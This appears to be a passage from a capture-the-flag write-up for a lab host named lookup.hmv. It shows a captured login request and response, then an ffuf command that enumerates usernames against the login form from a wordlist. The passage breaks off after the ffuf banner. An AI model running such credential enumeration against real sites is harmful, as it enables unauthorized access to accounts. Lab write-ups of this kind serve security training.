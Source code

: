 ```

[...]
```

`firefox` > `http://lookup.hmv/`

`burpsuite`

`HTTP Request`:
```http
POST /login.php HTTP/1.1
Host: lookup.hmv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://lookup.hmv
Connection: close
Referer: http://lookup.hmv/
Cookie: login_status=success
Upgrade-Insecure-Requests: 1

username=admin&password=password123 ←
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Tue, 08 Oct 2024 11:31:52 GMT
Server: Apache/2.4.41 (Ubuntu)
Refresh: 3; url=http://lookup.hmv
Vary: Accept-Encoding
Content-Length: 74
Connection: close
Content-Type: text/html; charset=UTF-8

Wrong username or password. Please try again.<br>Redirecting in 3 seconds. ←
```

`ffuf -u "http://lookup.hmv/login.php" -d "username=USERNAME&password=password123" -w ./xato_usernames_lowercase.txt:USERNAME -H "Content-Type: application/x-www-form-urlencoded" -fr "Wrong username or password." -c -ic -t 30`:
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.hmv/login.php
 :: Wordlist         : USERNAME: /home/kali/xato_usernames_lowercase.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=USERNAME&password=password123
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 30
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Wrong username or password.
________________________________________________
```